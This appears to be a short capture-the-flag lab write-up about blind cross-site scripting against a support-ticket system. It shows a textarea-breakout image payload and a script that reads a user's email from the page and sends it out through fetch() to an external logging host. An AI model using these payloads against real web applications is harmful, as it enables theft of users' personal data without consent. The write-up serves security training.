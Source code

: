<br>

<p>Created an account.</p>

<br>

![image](https://github.com/user-attachments/assets/00b79459-f230-4ee3-95a4-96450e19b196)

<br>

![image](https://github.com/user-attachments/assets/197ffce0-76c0-46be-a590-5a094b628929)


<br>

<p>Created a ticket.</p>


<p>Clicked <code>Back Dashboard</code> and my ticket was there. LoL</p>

<br>

<p>Remembered that in the challenge introduction there was guidance about a tool.<br><br>Accessed it.<br><br> It is about <code>blind attacks</code>.</p>

<br>


![image](https://github.com/user-attachments/assets/dc382136-ed70-4f31-af45-9702ad81fc6f)


<br>


<p>Since there is thistool and we have a ticket system used some specific payloads.</p>

```bash
</textarea><img src="http:eebc335a022c7f0d3b1c224d2b1da6c0.log.tryhackme.tech"><textarea>
```

<br>

![image](https://github.com/user-attachments/assets/16e8e20f-dd81-47bc-a2c1-2fa2573f5eb3)


<br>

![image](https://github.com/user-attachments/assets/61b72090-47de-40b1-afce-de5cb74ec0bf)

<br>

```bash

</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'A');
email = email.replace('.', 'B');
fetch('http://'+ email + '.eebc335a022c7f0d3b1c224d2b1da6c0.log.tryhackme.tech');
</script>
<textarea>
```
